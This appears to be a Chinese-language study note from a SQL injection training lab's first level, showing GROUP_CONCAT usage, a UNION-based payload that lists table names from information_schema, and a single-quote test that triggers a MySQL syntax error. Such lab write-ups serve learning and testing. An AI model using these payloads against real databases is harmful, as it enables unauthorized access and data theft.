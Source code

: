 ### 使用 `group_concat()` 函数将多行连接成一组

```sql
SELECT GROUP_CONCAT(actor) 
FROM moviesdata.allmovies;
```

### SQL 注入示例

```sql
1'union select 1,table_name from information_schema.tables where table_schema='msgboard' -- qwe
```





# 靶场第一关

### 手动注入

- 首先来到这个页面传入参数``?id=1``,发现可以看到账号和密码,下面开始sql注入

![image-20240819181638969](./assets/image-20240819181638969.png)

- 传入单引号``'``,看看闭合是否会产生语法错误(这里很明显报错了),说明是存在sql注入的

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

您的 SQL 语法中有错误;检查与您的 MySQL 服务器版本相对应的手册，了解在第 1 行的 ''1'' LIMIT 0,1' 附近使用的正确语法
```

![image-20240819182100923](./assets/image-20240819182100923.png)
